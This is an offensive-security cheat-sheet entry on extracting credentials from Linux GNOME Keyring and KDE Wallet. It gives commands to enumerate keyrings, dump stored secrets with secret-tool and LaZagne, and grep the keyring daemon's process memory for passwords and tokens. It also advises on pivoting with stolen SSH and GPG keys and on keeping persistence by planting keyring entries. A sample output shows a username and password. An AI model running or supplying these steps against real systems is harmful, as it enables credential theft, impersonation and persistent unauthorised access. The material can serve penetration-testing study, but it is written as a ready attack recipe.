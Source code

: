 ### Technique Name:

Credential Extraction from Linux Keyrings
### Summary:

Linux keyrings are used to store sensitive credentials securely, including Wi-Fi passwords, GPG keys, SSH keys, and browser login data. On systems with graphical environments like GNOME or KDE, the keyring is often unlocked at login and stored in memory, which can be dumped or queried by tools.
### Conditions:

- User must have access to the desktop session or be able to run commands as the user.    
- Root privileges are required to dump other users’ keyrings.
- GNOME Keyring or KDE Wallet must be running.
### Enumeration:
#### 1. Check if GNOME Keyring is Running

```bash
ps aux | grep gnome-keyring
```
#### 2. List Keyring Files

```bash
ls ~/.local/share/keyrings/
```

Expected files:

```
login.keyring
user.keystore
```
#### 3. List Keyring Services

```bash
secret-tool search --all
```
### Exploitation:
#### 1. Dump with Secret Tool

`secret-tool` allows querying GNOME Keyring credentials from within the user session.

Example:

```bash
secret-tool search application gnome-keyring
```

Or, general use:

```bash
secret-tool search --all
```
#### 2. Using LaZagne for Keyrings

LaZagne automates keyring extraction where supported.

Example:

```bash
python2 laZagne.py keyring
```

Sample Output:

```text
[+] GNOME Keyring found!
Login: cry0l1t3
Password: WLpAEXFa0SbqOHY
```
#### 3. Manual Extraction (if decrypted in memory)

```bash
strings /proc/$(pidof gnome-keyring-daemon)/mem 2>/dev/null | grep -iE 'pass|token|user'
```
### Post-Exploitation:

- Extracted passwords may allow pivoting into services (SSH, email, APIs).    
- Recovered GPG or SSH keys can be reused for signing, authentication, or impersonation.
- Maintain persistence by creating your own entries into the keyring if access is long-term.
